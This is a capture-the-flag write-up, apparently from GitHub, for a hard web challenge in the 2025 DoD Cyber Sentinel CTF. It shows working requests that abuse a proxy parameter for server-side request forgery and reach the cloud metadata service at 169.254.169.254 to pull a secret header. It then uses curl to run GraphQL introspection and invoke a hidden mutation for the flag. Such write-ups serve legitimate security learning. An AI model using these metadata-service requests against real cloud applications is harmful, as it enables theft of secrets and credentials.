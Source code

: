 # DoD-Cyber-Sentinel-CTF---Web-Hard

The following challenge was part of the 2025 DoD Cyber Sentinel CTF, in which I placed 9th! This challenge was by far one of the most fun CTF challenges I have done, and combines multiple web exploits and topics along the adventure for the flag.

<ins>**The Great Juche Jaguar GraphQL Heist (Web Exploitation Hard)**</ins>

**Challenge:**

"Operative, Juche Jaguar’s intranet exposes a proxy at /proxy?url=

Abuse it to reach the internal metadata service and pull down the one‐time secret header. Armed with that header, you must then POST to the guarded GraphQL endpoint at /graphql.

The flag lives behind a mutation whose name is randomized on each startup—introspect the schema to discover it and invoke it to exfiltrate the flag. No README, no docs—discover everything yourself."

---

**Process:**



The challenge text itself reveals some key information about the web application and the initial attack vector. First, we are given that /proxy?url= is exposed on the web server, allowing us to craft a request to reach the internal metadata service as suggested by the challenge.

By looking at the IP address, I knew that this web app was likely a GCP-hosted service as it has a 34.x.x.x address. By doing some research, I discovered that the internal metadata services for these servers are hosted at the hostname metadata.google.internal (169.254.169.254)

Using our exposed /proxy?url= parameter, I attempted to create the following request in Burp Suite (curl could also be used):

```GET /proxy?url=http://metadata.google.internal/computeMetadata/v1/instance/attributes/```

Unfortunately, this request resulted in an invalid URL response. However, it is worth a shot to try the request again with the resolved hostname:

```GET /proxy?url=http://169.254.169.254/computeMetadata/v1/instance/attributes/```

Thankfully, this worked and revealed two attribute names for me, “X-JJ-SECRET” and “ssh-keys”

---

Given that the challenge asks us to find the one-time secret header, we can conclude that “X-JJ-SECRET” is our target. With one more GET request, we can grab the attribute:

```GET /proxy?url=http://169.254.169.254/computeMetadata/v1/instance/attributes/X-JJ-SECRET```

Which returns the value “S3NT1N3L”

---

Now that I had the one-time secret header, it was time to make a POST request to the guarded GraphQL endpoint at /graphql. The challenge states that the flag lives behind a mutation whose name is randomized on each startup, and thus, we need to consult the schema. I achieved this using a simple POST request with curl:

```
curl -X POST "http://34.86.186.68:8080/graphql" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```

Which returned: eyJkYXRhIjp7Il9fc2NoZW1hIjp7Im11dGF0aW9uVHlwZSI6eyJmaWVsZHMiOlt7Im5hbWUiOiJtMzA5ZTUzMzYifV19fX19   

A quick base64 decode reveals the name of the target mutation "m309e5336"
![image](https://github.com/user-attachments/assets/dba3e1e3-9600-4324-acbf-155bdc03bf79)

---

Now that I had the name for the mutation, one more request is required:

```
curl -X POST "http://34.86.186.68:8080/graphql" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  -d '{"query":"mutation { m309e5336 }"}'         
```

Which returned:
eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMxe3NzdDFfcjNtMHQzX2MwZDNfeDNjfSJ9fQ==

Using base64, we can obtain our flag:
![image](https://github.com/user-attachments/assets/50d571b6-700b-49d9-a3dd-a07c5973d69e)


